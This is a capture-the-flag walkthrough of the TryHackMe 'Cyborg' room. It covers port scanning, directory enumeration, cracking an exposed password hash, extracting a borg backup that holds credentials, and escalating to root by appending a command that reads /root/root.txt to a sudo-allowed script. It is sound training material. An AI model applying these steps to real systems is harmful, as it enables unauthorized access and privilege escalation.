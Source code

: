 # THM | Cyborg

A box involving encrypted archives, source code analysis and more.

![image-20210125203617103](Untitled.assets/image-20210125203617103.png)

------
[Room link](https://tryhackme.com/room/cyborgt8)



### Namp scan :

```sh
└──╼ $nmap -vv -A <machine-ip>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u <machine-ip> -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :

![image-20210125205337915](Untitled.assets/image-20210125205337915.png)

go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://${machine-ip}/admin/ 

![image-20210125204342279](Untitled.assets/image-20210125204342279.png)

go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .

![image-20210125203205943](Untitled.assets/image-20210125203205943.png)

Happy Hacking.
